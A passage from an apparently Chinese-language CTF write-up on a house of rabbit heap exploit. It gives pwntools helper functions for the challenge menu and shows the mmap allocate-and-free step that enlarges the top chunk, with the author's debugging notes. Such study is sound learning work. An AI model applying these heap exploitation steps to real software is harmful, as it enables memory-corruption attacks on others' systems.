 <font style="background-color:#FBDE28;">正常来说 </font>`<font style="background-color:#FBDE28;">p64()</font>`<font style="background-color:#FBDE28;"> 结尾本来就是空字节，但是 WP 都用了 </font>`<font style="background-color:#FBDE28;">[:7]</font>`<font style="background-color:#FBDE28;"> 或者 </font>`<font style="background-color:#FBDE28;">[:-1]</font>`<font style="background-color:#FBDE28;"> 来改输入，而且不用的话会报 broken pipe 的错...这里没搞懂...</font>

定义函数：

```python
def add(sizetype,chunkcontent): #1:0x10 2:0x80 3:0xa00000 13337:0xffffffffffffff70
    link.sendline(b'1')
    link.sendline(str(sizetype))
    link.sendline(chunkcontent)
    sleep(0.1)

def free(index):
    link.sendline(b'2')
    link.sendline(str(index))
    sleep(0.1)

def edit(index,chunkcontent,bsscontent):
    link.sendline(b'3')
    link.sendline(str(index))
    link.sendline(chunkcontent)
    link.sendline(bsscontent)
    sleep(0.1)
```

### 扩大 topchunk
题目给了四种大小的 chunk 可以申请，最大的只能申请一次，而 0xa00000 大小的可以申请多几次，

按照 house of rabbit 的过程，先申请两次 0xa00000 大小的，（因为 0xa00000 大小比 topchunk 还要大，所以会用 mmap 来申请）再释放掉之后，topchunk 的大小就会变大

```python
add(3,b'a') #0 mmap largechunk
free(0)
add(3,b'b') #1 mmap largechunk
free(1)
```

原本的 topchunk

![](/images/b2579f5e2970149a77ef993a3fbd3e4b.png)

申请然后释放了第一个 largechunk 大小的 chunk 之后

![](/images/3afb9ecc9c582262f2b34fda5f0d4cf0.png)

重复第二遍，这个时候 topchunk 的 size 就变大了很多

![](/images/236cd57da065e8ee223fb9d4dcb2b272.png)

> 这里动调其实遇到了一点状况，可能是本来这样？在堆上只有 mmap 申请得到的 chunk 而且它还没被释放的情况下输入 heap 指令会报错（刚开始还以为符号又掉了...）
>
